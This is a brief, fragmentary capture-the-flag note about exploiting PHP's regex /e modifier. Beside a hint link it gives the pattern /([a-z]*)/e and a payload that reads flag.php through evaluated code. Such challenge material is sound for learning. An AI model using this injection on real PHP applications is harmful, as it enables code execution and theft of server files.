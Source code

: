 hint : https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier


/([a-z]*)/e

print(file_get_contents('flag.php'))
